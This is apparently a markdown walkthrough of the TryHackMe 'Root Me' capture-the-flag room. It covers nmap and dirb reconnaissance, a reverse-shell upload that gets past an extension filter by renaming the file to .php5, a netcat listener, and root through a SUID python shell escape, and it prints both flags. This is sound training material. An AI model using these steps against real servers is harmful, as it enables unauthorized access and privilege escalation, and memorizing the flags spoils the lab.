

# Root Me  - Try Hack Me

Reference: [Root Me](https://tryhackme.com/room/rrootme)

Level: Super Easy

---

Recognition:

```bash
┌──(kali㉿2a02-8440-6441-a02f-0a00-27ff-fe62-0f00)-[~/Desktop]
└─$ nmap -A 10.10.5.164  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-02 14:35 CET
Nmap scan report for 10.10.5.164
Host is up (0.028s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.65 seconds
```

It seems that we have a webserver running on this VM. Let's try to list available URLs on the site.

```bash
┌──(kali㉿2a02-8440-6441-a02f-0a00-27ff-fe62-0f00)-[~/Desktop]
└─$ dirb http://10.10.5.164

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Jan  2 14:43:17 2024
URL_BASE: http://10.10.5.164/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.5.164/ ----
==> DIRECTORY: http://10.10.5.164/css/                                                                              
+ http://10.10.5.164/index.php (CODE:200|SIZE:616)                                                                  
==> DIRECTORY: http://10.10.5.164/js/                                                                               
==> DIRECTORY: http://10.10.5.164/panel/                                                                            
+ http://10.10.5.164/server-status (CODE:403|SIZE:276)                                                              
==> DIRECTORY: http://10.10.5.164/uploads/                                                                          
                                                                                                                    
---- Entering directory: http://10.10.5.164/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                    
---- Entering directory: http://10.10.5.164/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                                    
---- Entering directory: http://10.10.5.164/panel/ ----
+ http://10.10.5.164/panel/index.php (CODE:200|SIZE:732)                                                            
                                                                                                                    
---- Entering directory: http://10.10.5.164/uploads/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Tue Jan  2 14:47:51 2024
DOWNLOADED: 9224 - FOUND: 3
```

**Number of ports open**: 2

**Apache Version**: 2.4.29

**Service running on port 22**: ssh

**Hidden directory**: /panel/ 

The `/panel/` page seems to be used to upload files on the webserver. We will be trying to upload a php reverse shell and then trigger it to access the VM. The first attempt with a file `reverse.php` didn't work but by renaming it to [reverse.php5](./reverse.php5) it's possible to upload the file.  


Once the upload is done a link appears, this link sends us to the `upload` page and we're now able to see the uploaded files. 



By clicking on the uploaded script we can trigger the reverse shell. But before lets open a netcat listener:

```bash
┌──(kali㉿2a02-8440-6441-a02f-0a00-27ff-fe62-0f00)-[~/Desktop]
└─$ nc -nlvp 4444    
listening on [any] 4444 ...
connect to [10.9.168.4] from (UNKNOWN) [10.10.68.89] 48504
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:28:44 up 3 min,  0 users,  load average: 2.44, 2.11, 0.90
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$
```

We're in ! Searching for interesting stuff in the `home` directory. But nothing cool here.

```bash
www-data@rootme:/home$ ls -la test
ls -la test
total 28
drwxr-xr-x 3 test test 4096 Aug  4  2020 .
drwxr-xr-x 4 root root 4096 Aug  4  2020 ..
-rw------- 1 test test  393 Aug  4  2020 .bash_history
-rw-r--r-- 1 test test  220 Aug  4  2020 .bash_logout
-rw-r--r-- 1 test test 3771 Aug  4  2020 .bashrc
drwxrwxr-x 3 test test 4096 Aug  4  2020 .local
-rw-r--r-- 1 test test  807 Aug  4  2020 .profile
www-data@rootme:/home$ ls -la rootme
ls -la rootme
total 32
drwxr-xr-x 4 rootme rootme 4096 Aug  4  2020 .
drwxr-xr-x 4 root   root   4096 Aug  4  2020 ..
-rw------- 1 rootme rootme  100 Aug  4  2020 .bash_history
-rw-r--r-- 1 rootme rootme  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 rootme rootme 3771 Apr  4  2018 .bashrc
drwx------ 2 rootme rootme 4096 Aug  4  2020 .cache
drwx------ 3 rootme rootme 4096 Aug  4  2020 .gnupg
-rw-r--r-- 1 rootme rootme  807 Apr  4  2018 .profile
-rw-r--r-- 1 rootme rootme    0 Aug  4  2020 .sudo_as_admin_successful

```
Searching for the user flag:

```bash
$ find / -type f -name "user.txt" 2>/dev/null
/var/www/user.txt
cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

By listing the directory and files with root priveleges we can see that python as root role. We just have to open a shell using python to become root:

```bash
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
# find / -type f -name "root.txt" 2>/dev/null
find / -type f -name "root.txt" 2>/dev/null
/root/root.txt
# cat /root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```